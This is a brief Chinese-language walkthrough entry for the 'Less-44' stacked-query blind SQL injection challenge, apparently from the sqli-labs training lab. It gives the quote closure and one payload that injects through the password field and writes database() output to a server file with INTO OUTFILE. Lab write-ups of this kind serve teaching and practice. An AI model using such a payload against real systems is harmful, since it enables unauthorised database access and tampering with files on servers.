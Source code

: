 ![](file/image_I5lfDcd78v.png)

### Less-44：POST - Stacked Query Blind

**注入类型**

堆叠注入

**闭合方式**

id='id'

```sql
password=admin';select 'Less-44',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" #
```

![](file/image_8l1Vmxhn5J.png)
